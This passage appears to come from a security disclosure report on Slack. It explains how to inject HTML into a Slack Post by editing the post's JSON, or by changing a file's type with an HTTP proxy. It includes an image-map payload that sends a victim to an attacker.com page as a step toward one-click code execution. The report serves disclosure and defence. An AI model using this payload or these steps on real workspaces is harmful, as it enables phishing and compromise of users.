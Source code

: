 **NOTE**: This could also be done with any XSS/in-app redirect vulnerability.

## HTML injection - directly editing Slack Post structure as JSON

### 1. create a new Slack Post with some title and some content

When you create a new Slack Post, it creates a new file on https://files.slack.com with the following JSON structure:
```
{"full":"<p>content<\/p>","preview":"<p>content<\/p>"}
```
{F696858}

The URL to a private file can be found by visiting the private file link returned by the `/api/files.info` call:
{F696861}

The private file URL is in the format `https://files.slack.com/files-pri/{TEAM_ID}-{FILE_ID}/TITLE` under `url_private` response from `/api/files.info`. The Slack Post JSON structure can be observed by simply visiting the private file link.

### 2. Injecting HTML payload

It's possible to directly edit this JSON structure, which can contain arbitrary HTML. Javascript execution is restricted by CSP and various security protections are in place for HTML tags (i.e. banned `iframe`, `applet`, `meta`, `script`, `form` etc. and `target` attribute is overwritten to `_blank` for `A` tags). 

However, it is still possible to inject `area` and `map` tags, which can be used to achieve a one-click-RCE.

To edit the JSON structure directly and inject in that way, you can use the web UI provided by Slack itself:
```
https://{YOUR-TEAM-HOSTNAME}.slack.com/files/{YOUR-MEMBER-ID}/{FILE-ID}/title/edit
```
`YOUR-MEMBER-ID` you can copy from your profile view, it's in the format `UXXXXXXXX`

{F696964}

**Alternatively**, it's possible to upload a Javascript/JSON snippet and change it's filetype to `docs` by editing the `filetype` parameter with a HTTP proxy.

Upload payload.json with the JSON below:
{F696941}

Change filetype by intercepting request when when editing file, e.g. change title and intercept HTTP request to `/api/files.edit`:
{F696942}

Since no HTML embedding is possible and various interesting tags are restricted + Javascript is not available because of existing protections and a defined CSP, a new HTML injection payload was developed:
```
<img src="https://files.slack.com/files-tmb/T02AVL3AF-FSUE04U2D-881f692a25/screenshot_2020-01-26_at_21.12.20_360.png" width="10000" height="10000" usemap="#slack-img">
<map name="slack-img">
<area shape="rect" coords="10000,10000 0,0" href="https://attacker.com/t.html" target="_self">
</map>
```
Note this payload requires an image to reference with the attribute `usemap`. This can be hosted in Slack infrastructure by uploading an image to Slack beforehand.
